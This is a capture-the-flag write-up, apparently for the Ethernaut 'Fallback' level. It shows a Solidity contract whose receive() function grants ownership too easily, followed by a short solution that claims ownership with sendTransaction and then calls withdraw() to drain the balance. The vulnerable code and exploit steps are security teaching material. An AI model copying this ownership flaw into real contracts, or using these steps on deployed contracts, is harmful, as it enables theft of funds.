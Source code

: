 ### Type - CTF

*** 


Look carefully at the contract's code below.

You will beat this level if

* you claim ownership of the contract
* you reduce its balance to 0

Things that might help

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see help() command)
* Fallback methods

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```


### Solution

* Get New Instance

Taking a glimpse at the code above we can easily exploit a poorly implemented fallback function to gain control of someone else’s smart contract

* Sending  transaction value from players account satisfying the condition `require(msg.value > 0 && contributions[msg.sender] > 0);` will give the  ownership to the player
  * `contract.sendTransaction({from: player,value: toWei(...)})`
*  await contract.owner() - > checking the ownership 
* contract.withdraw() - > withdraws all the funds in the  contract
